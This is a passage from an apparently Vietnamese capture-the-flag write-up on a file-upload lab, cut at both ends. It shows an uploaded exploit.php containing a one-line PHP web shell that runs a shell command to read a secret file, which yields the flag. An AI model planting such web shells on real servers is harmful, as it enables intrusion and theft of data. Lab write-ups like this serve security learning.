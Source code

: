 Để đọc được file đó, em đổi lại nội dung của file `exploit.php`:

```php
<?php system("cat /71c99ec9c94-secret.txt"); ?>
```

Tải lên lại file một lần nữa rồi truy cập đường dẫn tới file, em đã lấy được flag:

![level-1-4](images/lab-cbjs/level-1/level-1-4.png)

### Level 2
